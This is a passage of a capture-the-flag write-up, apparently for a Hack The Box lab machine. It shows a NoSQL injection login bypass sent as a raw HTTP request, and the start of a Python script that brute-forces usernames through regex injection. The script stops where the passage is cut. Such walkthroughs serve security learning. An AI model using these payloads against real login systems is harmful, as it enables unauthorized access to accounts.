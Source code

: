 
---

## 🔍 Initial Access

### Web Application Analysis

Visiting `http://staging-order.mango.htb` presents a login page. Traditional SQL injection attempts proved unsuccessful, leading to testing for NoSQL injection vulnerabilities.

<img width="717" height="827" alt="image" src="https://github.com/user-attachments/assets/ed2abf5f-d5e1-43fe-80c8-a6bef1ddf805" />


### NoSQL Injection Exploitation

#### Initial Bypass
Intercepting the login request in Burp Suite and modifying the parameters:

```http
POST / HTTP/1.1
Host: staging-order.mango.htb
Content-Type: application/x-www-form-urlencoded

username[$ne]=admin&password[$ne]=password&login=login
```

<img width="592" height="505" alt="image" src="https://github.com/user-attachments/assets/e1a75505-36b1-4159-970e-285dad045692" />

This payload successfully bypassed authentication, revealing the application was vulnerable to NoSQL injection.

<img width="592" height="505" alt="image" src="https://github.com/user-attachments/assets/ca75f48e-3b9d-4f97-bb02-fdcbf3de3182" />


#### Username Enumeration

**Python Script for Username Brute-Force**:
```python
import requests
import string
import sys

def brute_user(user_prefix=""):
    for char in string.ascii_letters + string.digits:
        payload = user_prefix + char
        sys.stdout.write(f"\r[+] Trying username: {payload}")
        sys.stdout.flush()
        
        response = requests.post(
            'http://staging-order.mango.htb/',
            data={
                'username[$regex]': f'^{payload}',
                'password[$ne]': 'password',
                'login': 'login'
            }
        )
        
        if "We just started farming" in response.text:
            print(f"\n[+] Found partial username: {payload}")
            brute_user(payload)
            return
    
    if user_prefix:
        print(f"\n[+] Complete username found: {user_prefix}")

if __name__ == "__main__":
```
